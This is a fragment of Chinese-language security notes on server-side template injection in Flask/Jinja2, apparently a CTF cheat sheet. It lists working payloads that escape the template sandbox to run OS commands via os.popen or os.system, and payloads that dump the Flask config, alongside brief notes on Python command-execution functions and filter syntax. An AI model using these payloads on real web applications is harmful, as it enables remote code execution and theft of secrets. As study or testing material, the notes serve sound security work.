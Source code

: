 > 



```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__=='catch_warnings' %}
  {{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('&lt;command&gt;').read()") }}
  {% endif %}
{% endfor %}

```

#### Python常用的命令执行方式

> 
- os.system()：该方法的参数就是 string 类型的命令，在 linux 上返回值为执行命令的 exit 值；而windows上返回值则是运行命令后 shell 的返回值；注意：该函数返回命令执行结果的返回值，并不是返回命令的执行输出（执行成功返回0，失败返回-1）


> 
- os.popen()：返回的是 file read 的对象，如果想获取执行命令的输出，则需要调用该对象的 read() 方法


### Python-Web框架配置文件

#### Tornado

> 



#### flaks

> 



```
{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}

如果过滤了{{config}}且框架是flask的话便可以使用如下payload进行代替

{{get_flashed_messages.__globals__['current_app'].config}}
{{url_for.__globals__['current_app'].config}}

```

### Flask过滤器

#### 定义

> 



#### 使用方式

```
变量|过滤器
variable|filter(args)    
variable|filter        //如果过滤器没有参数可以不加括号

```
